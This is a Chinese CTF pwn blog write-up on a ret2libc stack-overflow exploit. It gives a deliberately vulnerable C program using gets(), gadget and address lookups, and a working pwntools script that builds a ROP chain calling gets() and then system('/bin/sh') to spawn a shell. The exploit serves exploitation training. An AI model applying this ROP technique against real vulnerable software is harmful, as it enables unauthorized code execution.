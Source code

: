 ```yaml
---
title: ret2libc攻击技术示例-仅有system()情况下输入“/bin/sh”完成函数调用
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 情景描述

当程序中并没有直接的`"/bin/sh"`字符串时，我们该如何通过ret2libc技术实现`system("/bin/sh")`的执行呢？这时我们就需要借助`gets` `read`之类的函数，读入我们输入的`"/bin/sh"`到缓冲区后，然后依照ret2libc1的套路一样，将`"/bin/sh"`的地址，也就是缓冲区的地址，模拟传入实现函数调用

# 示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```

本节示例的漏洞程序可以在此处下载： [ret2libc2](/files/ret2libc2)

程序依旧只开启了NX保护
``` bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

# 漏洞分析

利用`gets()`函数，我们可以将`"/bin/sh"`写入到buf2中(buf1也可以)，但是这时需要注意，我们要合理设置`gets()`函数执行完后的返回地址，我们要保证函数执行完后依旧返回到rop链的下部分继续执行，因此我们需要一个gadget作为`gets()`返回地址。

这样，当`gets()`读取"/bin/sh"写入到buf中后，将返回到一个gadget上，gadget继续ret可以返回到下一部分，而这部分我们构造为`system("/bin/sh")`，那么这样的rop chain构造合理，我们就可以成功获取一个shell

``` bash
➜  ret2libc2 objdump -dj .plt ret2libc2 | grep -E "gets|system"
08048460 <gets@plt>:
08048490 <system@plt>:
➜  ret2libc2 ROPgadget --binary ret2libc2 --only 'pop|ret'
Gadgets information
============================================================
......
0x0804843d : pop ebx ; ret
......

Unique gadgets found: 7
➜  ret2libc2 readelf -s ret2libc2 | grep buf2
    59: 0804a080   100 OBJECT  GLOBAL DEFAULT   25 buf2
```

# 攻击代码

``` python
from pwn import *

pop_ebp_ret = 0x0804843d
plt_gets = 0x08048460
plt_system = 0x08048490
buf2 = 0x0804a080

payload = 'A' * 112
payload += p32(plt_gets) + p32(pop_ebp_ret) + p32(buf2)
payload += p32(plt_system) + p32(0xdeadbeef) + p32(buf2)

io = process('ret2libc2')
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```
